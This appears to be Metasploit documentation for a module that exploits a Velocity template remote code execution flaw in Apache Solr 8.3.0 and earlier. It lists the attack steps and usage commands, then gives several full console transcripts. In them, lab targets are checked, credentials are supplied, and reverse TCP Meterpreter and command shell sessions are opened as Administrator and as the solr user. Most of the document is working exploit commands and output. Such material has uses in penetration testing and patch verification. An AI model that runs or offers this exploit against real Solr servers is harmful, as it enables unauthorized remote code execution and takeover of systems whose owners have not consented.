 ## Introduction

**From the Tenable advisory**:
...an attacker could target a vulnerable Apache Solr instance by first identifying a list of Solr core names.
Once the core names have been identified, an attacker can send a specially crafted HTTP POST request to the Config API to toggle the params resource loader value for the Velocity Response Writer in the solrconfig.xml file to true.
Enabling this parameter would allow an attacker to use the velocity template parameter in a specially crafted Solr request, leading to RCE.

This module will carry out the following tasks in order during `check`:

1. Check if authentication is required.
2. If authentication is required and credentials are provided, attempt to authenticate using provided credentials. If successful, use the credentials in subsequent requests.
3. Check victim's OS
4. Enumerate Solr cores
5. Check configuration of each Solr core to determine if `params.resource.loader.enabled` is `true`

And during `exploit`:

1. Run `check` to see if victim is vulnerable
2. Attempt to change `params.resource.loader.enabled` to `true` if it isn't already set to `true`
3. Check if selected target and OS of victim match. Abort if it doesn't match, continue if it does.
4. If victim's OS platform is `Windows` check for PowerShell. Abort if `PowerShell` is not present, continue if it is.
5. Generate payload and place inside custom template
6. Exploit and gain access

Privileges gained are dependent on the user running Solr.

## Vulnerable Applications

- Apache Solr <= 8.3.0

## Verification Steps

1. Start `msfconsole`
2. `use exploit/multi/http/solr_velocity_rce`
3. `set RHOST <target_ip>`
4. `set RPORT <target_port>`
5. `set USERNAME <username>` (if applicable)
6. `set PASSWORD <password>` (if applicable)
7. Ideally run `check`
8. `set TARGET` based on output of `check`
9. `set PAYLOAD <payload_name>` if you want to use other payloads
10. `set LHOST <your_ip>`
11. `set LPORT <your_port>`
12. `exploit` and let the shells rain

## Options

- No module-specific options used.

## Examples

### Windows Server 2019 Datacenter, fully patched, Solr 8.3.0, no authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.16.252.129
RHOSTS => 172.16.252.129
msf5 exploit(multi/http/solr_velocity_rce) > check

[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[+] Found core(s): techproducts
[+] params.resource.loader.enabled for core 'techproducts' is set to true.
[+] 172.16.252.129:8983 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET x86/x64\ Windows
TARGET => x86/x64 Windows
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 172.16.252.1
LHOST => 172.16.252.1
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 172.16.252.1:4444
[*] Found Apache Solr 8.3.0
[*] OS version is Windows Server 2019 amd64 10.0
[+] Found core(s): techproducts
[+] params.resource.loader.enabled for core 'techproducts' is set to true.
[*] Sending stage (180291 bytes) to 172.16.252.129
[*] Meterpreter session 1 opened (172.16.252.1:4444 -> 172.16.252.129:50806) at 2019-12-26 20:06:57 +0800

meterpreter > sysinfo
Computer        : 2K19DTCTR
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: 2K19DTCTR\Administrator
meterpreter >
```

### Bitnami Solr VM 8.3.0, failed authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.16.252.137
RHOSTS => 172.16.252.137
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > check

[!] Authentication required for 172.16.252.137:80!
[-] Credentials not provided, skipping credentialed check...
[*] 172.16.252.137:80 - Cannot reliably check exploitability.
msf5 exploit(multi/http/solr_velocity_rce) >
```

### Bitnami Solr VM 8.3.0, successful authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.16.252.137
RHOSTS => 172.16.252.137
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > check
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > check

[!] Authentication required for 172.16.252.137:80!
[*] Attempting authentication for 172.16.252.137:80...
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[+] Found core(s): techproducts
[+] params.resource.loader.enabled for core 'techproducts' is set to true.
[+] 172.16.252.137:80 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) >
```

### Bitnami Solr VM 8.3.0, successful exploit
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOSTS 172.16.252.137
RHOSTS => 172.16.252.137
msf5 exploit(multi/http/solr_velocity_rce) > set RPORT 80
RPORT => 80
msf5 exploit(multi/http/solr_velocity_rce) > check
msf5 exploit(multi/http/solr_velocity_rce) > set USERNAME user
USERNAME => user
msf5 exploit(multi/http/solr_velocity_rce) > set PASSWORD j6lzH82e6Jc5
PASSWORD => j6lzH82e6Jc5
msf5 exploit(multi/http/solr_velocity_rce) > check

[!] Authentication required for 172.16.252.137:80!
[*] Attempting authentication for 172.16.252.137:80...
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[+] Found core(s): techproducts
[+] params.resource.loader.enabled for core 'techproducts' is set to true.
[+] 172.16.252.137:80 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 1
TARGET => 1
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[!] Authentication required for 172.16.252.137:80!
[*] Attempting authentication for 172.16.252.137:80...
[*] Found Apache Solr 8.3.0
[*] OS version is Linux amd64 4.9.0-11-amd64
[+] Found core(s): techproducts
[+] params.resource.loader.enabled for core 'techproducts' is set to true.
[*] Command shell session 3 opened (172.17.0.1:4444 -> 192.168.5.9:34805) at 2019-12-26 20:15:39 +0800

uname -a
Linux debian 4.9.0-11-amd64 #1 SMP Debian 4.9.189-3+deb9u1 (2019-09-20) x86_64 GNU/Linux
whoami
solr
```


### Docker Solr 8.2.0, no authentication
```
msf5 > use exploit/multi/http/solr_velocity_rce
msf5 exploit(multi/http/solr_velocity_rce) > set RHOST 172.17.0.2
RHOST => 172.17.0.2
msf5 exploit(multi/http/solr_velocity_rce) > check

[*] Found Apache Solr 8.2.0
[*] OS version is Linux amd64 5.3.0-kali3-amd64
[+] Found core(s): gettingstarted, techproducts
[+] params.resource.loader.enabled for core 'gettingstarted' is set to true.
[+] params.resource.loader.enabled for core 'techproducts' is set to true.
[+] 172.17.0.2:8983 - The target is vulnerable.
msf5 exploit(multi/http/solr_velocity_rce) > set TARGET 1
TARGET => 1
msf5 exploit(multi/http/solr_velocity_rce) > set LHOST 172.17.0.1
LHOST => 172.17.0.1
msf5 exploit(multi/http/solr_velocity_rce) > exploit

[*] Started reverse TCP handler on 172.17.0.1:4444
[*] Found Apache Solr 8.2.0
[*] OS version is Linux amd64 5.3.0-kali3-amd64
[+] Found core(s): gettingstarted, techproducts
[+] params.resource.loader.enabled for core 'gettingstarted' is set to true.
[*] Command shell session 1 opened (172.17.0.1:4444 -> 172.17.0.2:51036) at 2019-12-26 20:10:01 +0800

uname -a
Linux 2667812695e4 5.3.0-kali3-amd64 #1 SMP Debian 5.3.15-1kali1 (2019-12-09) x86_64 GNU/Linux
whoami
solr
```

